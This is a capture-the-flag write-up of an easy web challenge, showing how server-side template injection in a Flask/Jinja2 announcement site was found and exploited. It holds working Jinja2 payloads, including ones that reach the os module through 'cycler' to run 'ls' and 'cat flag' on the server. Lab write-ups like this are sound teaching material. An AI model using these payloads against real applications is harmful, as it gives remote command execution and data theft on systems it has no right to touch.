



## Overview

- **Platform:** CyLab Security Academy
- **Category:** Web Exploitation
- **Difficulty:** Easy

### Description
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!




## Solution
### Recon
The site has a single input field. Submitting ``hello`` takes me to ``/announce``, which simply renders the text back. I tested whether the input is evaluated by submitting ``Hello {{7*7}}``. The page rendered ``Hello 49`` instead of the literal input, confirming the vulnerability.



With Wappalyzer I identified the backend as Flask, which uses the template engine Jinja2 by default. I confirmed the engine with a standard polyglot payload:
``{{7*'7'}}``. The output was ``7777777``, which indicates Jinja2. 

Reference: [Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)


### Command Execution

I listed the files in the  directory by using the default global ``cycler`` to reach the ``os`` module:
```text
{{ cycler.__init__.__globals__.os.popen('ls').read() }}
```
Output: ``__pycache__ app.py flag requirements.txt``

I then swapped the command to ``cat flag`` to get the flag:
```text
{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}
```


Reference: [SSTI: Server-Side Template Injection (2026 Guide)](https://deepstrike.io/blog/server-side-template-injection)